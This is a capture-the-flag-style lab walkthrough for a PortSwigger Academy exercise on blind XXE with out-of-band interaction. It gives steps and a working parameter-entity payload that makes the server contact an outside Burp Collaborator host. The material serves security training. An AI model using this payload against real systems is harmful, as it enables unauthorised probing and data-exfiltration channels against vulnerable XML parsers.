 ```


```

## Blind XXE with out-of-band interaction via XML parameter entities

### Enunciation

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

#### Note

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

### Solution

![xxe](../img/xxe_12.png)

```
1. Visit a product page, click "Check stock" and intercept the resulting POST request in [Burp Suite Professional](https://portswigger.net/burp/pro).
2. Insert the following external entity definition in between the XML declaration and the `stockCheck` element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:
    
    `<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>`
3. Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
```
